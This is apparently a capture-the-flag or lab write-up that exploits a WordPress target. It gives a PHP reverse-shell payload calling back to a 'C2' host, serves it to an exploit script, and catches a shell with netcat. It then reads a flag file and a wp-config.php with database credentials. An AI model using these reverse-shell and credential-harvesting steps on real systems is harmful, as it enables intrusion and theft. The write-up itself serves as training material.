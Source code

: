 ### exploitation
Create a file `shell.txt` with the following content.

```
<pre>system('php -r \'$sock=fsockopen("C2",1234);exec("/bin/sh -i <&3 >&3 2>&3");\'')</pre>
```

Now we start our `netcat` listener on the attacker machine.

```
$ nc -lvp 1234
```

Execute the exploit script

```bash
$ python2 46794.py -t http://192.168.55.123/wordpress/ --payload-uri http://c2/shell.txt
```

Catching the connect from the target.

```bash
$ nc -lvp 1234                                                                     
listening on [any] 1234 ...
192.168.55.123: inverse host lookup failed: Unknown host
connect to [192.168.55.200] from (UNKNOWN) [192.168.55.123] 35760
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

Yay we got a shell!

### first flag
```bash
$ pwd
/var/www
$ cat local.txt
a*****************************d
```
-> `a*****************************d`

## privilege escalation

Having a closer look at the `wordpress` config file and which users exist on the system gives us an indication how to elevate our privileges.

```bash
$ pwd
/var/www/html/wordpress
$ cat wp-config.php
...
/** MySQL database username */
define( 'DB_USER', 'wp_user' );

/** MySQL database password */
define( 'DB_PASSWORD', 'R3&]vzhHmMn9,:-5' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
...
$ ls /home
takis
```
